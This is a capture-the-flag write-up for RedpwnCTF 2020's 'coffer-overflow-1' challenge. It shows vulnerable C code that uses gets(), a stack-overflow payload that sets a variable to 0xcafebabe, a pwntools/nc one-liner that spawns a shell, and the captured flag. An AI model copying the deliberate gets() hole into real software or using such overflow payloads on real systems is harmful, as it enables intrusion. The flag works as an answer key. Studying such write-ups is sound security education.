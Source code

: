 # coffer-overflow-1

> The coffers keep getting stronger! You'll need to use the source, Luke.

> nc 2020.redpwnc.tf 31255

Files provided:
* coffer-overflow-1.c  -  C source code
* coffer-overflow-1   - 64bit ELF file


C source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}

```

This is similar to [coffer-overflow-1], but at this time, we have to put an exactly value into `code`.
This value is `0xcafebabe`.

So, our payload will be something like this: `[24-RANDOM_CHARS][0x00000000cafebabe]`.

Remeber that because of `little-endian`, we have to write integers bytes reversed. To do this in python we can use the `pwn` library.

```sh
$  ( python -c "from pwn import *; print 'A'*24+p64(0xcafebabe)"; cat ) | nc 2020.redpwnc.tf 31255
```

And here is the flag: `flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}`


[coffer-overflow-1]: <https://github.com/Yankoo458/CTF-writeups/blob/master/RedpwnCTF2020/pwn/coffer-overflow-0/coffer-overflow-0.md>
